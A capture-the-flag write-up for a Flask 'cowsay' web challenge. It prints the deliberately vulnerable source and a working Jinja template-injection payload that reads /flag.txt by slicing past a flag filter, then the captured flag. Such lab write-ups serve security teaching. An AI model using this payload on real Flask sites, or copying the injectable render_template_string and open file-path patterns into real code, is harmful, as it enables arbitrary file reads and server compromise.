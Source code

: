 ```yaml
---
title: "OSU League 2020/2021 - WEB_THREE"
date: 2021-03-07
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
For this challenge, we are given a website that bears a resemblance to a previous challenge we did (cowsay), though this one is a bit more complicated.

{{< figure src="/img/1.png" >}}

We can start by just entering in some text and seeing what happens:

{{< figure src="/img/2.png" >}}

Neat! Let's look at the source code:

```python
# coding=utf-8

from flask import render_template, render_template_string, flash, redirect, session, url_for, request, g, Markup, Response
from app import app
import uuid
import traceback
import os

def _generate_cowsay_file():
    return '/tmp/cow-' + str(uuid.uuid4())


@app.route('/')
@app.route('/index')
def index():
    return render_template('index.html')


@app.route('/cowsay')
def cowsay():
    filename_in = _generate_cowsay_file()
    filename_out = _generate_cowsay_file()
    with open(filename_in, 'w') as f:
        f.write(str(request.args.get('msg'))[:2000])

    # cowsay!
    os.system('cat ' + filename_in + ' | /usr/games/cowsay -TU -W 2000 > ' + filename_out + ' 2>&1')
    return redirect('/render?path=' + filename_out, code=302)


@app.route('/render')
def about():
    try:
        with open(request.args.get('path', 'layout.html'), 'r') as f:
            resp = render_template_string('''{% extends "layout.html" %}{% block content %}<div class="jumbo"><h1>Your cow says...</h1><code>''' + f.read() + '''</code><br><p><a href="/">do it again!!!!!!!!!</a></p></div>{% endblock %}''')

            # check if the user is trying to do something evil :((
            if u'OSUSEC{' in resp:
                resp = u'I see the flag in the response! Nice try.'

            return Response(response=resp, status=200)
    except:
        msg = 'We could not fetch your page! Sorry :(\n\n' + traceback.format_exc()
        return Response(response=msg, status=500, mimetype='text/plain')
```

Ah, we have a Flask challenge.  We've done this before (see nopship)! All we have to do is a Flask injection to do arbitrary read on `flag.txt`, but there is a slight problem, the server actually checks to see if 'OSUSEC{' is in the output, and aborts if it does. That's ok, because we can just read only the text after that.

Doing a simple google search for arbitrary read with Flask injection will give us our payload:

```
{{ config.items()[4][1].__class__.__mro__[1].__subclasses__()[40]("/flag.txt").read()[27:120] }}
```

And running it we get the flag!

{{< figure src="/img/3.png" >}}

```
OSUSEC{ok_s0_y0u_f1gur3d-out_d1rect0ry-tr@versal_w0nt-b3_helpful-here?}
```

